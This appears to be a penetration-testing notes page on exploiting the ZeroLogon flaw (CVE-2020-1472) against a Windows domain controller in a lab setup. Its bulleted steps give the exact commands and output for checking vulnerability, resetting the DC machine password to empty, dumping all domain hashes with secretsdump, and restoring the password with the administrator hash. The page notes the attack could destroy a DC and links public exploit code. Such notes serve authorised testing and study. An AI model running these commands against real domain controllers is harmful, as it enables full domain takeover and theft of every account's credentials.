 # Abusing ZeroLogon

- Attacking DC and setting pass to null and taking over DC **CAREFUL COULD DESTROY DC**
- Check priorly if the target is vulnerable 
  *Note: Useful for a pentest to mention to the customer that they are vulnerable without actually doing the exploitation*
  ```
  ┌──(root💀kali)-[/home/kali/CVE-2020-1472]
  └─# python3 zerologon_tester.py HYDRA-DC 10.0.2.5
  Performing authentication attempts...
  ===================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================
  Success! DC can be fully compromised by a Zerologon attack.
  ```
- Changing the password to empty string: `python3 exploit.py HYDRA-DC 10.0.2.5`
- Check if it worked: `secretsdump.py -just-dc DOMAIN/DOMAIN-CONTROLLER\$@IP-OF-DC`
  Example: `secretsdump.py -just-dc MARVEL/HYDRA-DC\$@10.0.2.5`
- If we were able to dump hashes without typing password it means we owned the DC.
- Restore the machine
  - Use the admin hash to get the plain_password_hex `secretsdump.py administrator@10.0.2.5 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`
  - Restore the password `python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 10.0.2.5 -hexpass <Put here the hexpass you just got>`  
    The console should print `Change password OK`
- There is also another way to exploit zerologon without resetting the DC password, check out [Dirk-Jan Mollema's article about this](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

## Zerologon - Resources

{% embed url="https://www.trendmicro.com/en_us/what-is/zerologon.html" %} What is ZeroLogon? {% endembed %}
{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %} dirkjanm CVE-2020-1472 {% endembed %}
{% embed url="https://github.com/SecuraBV/CVE-2020-1472" %} SecuraBV ZeroLogon Checker {% endembed %}
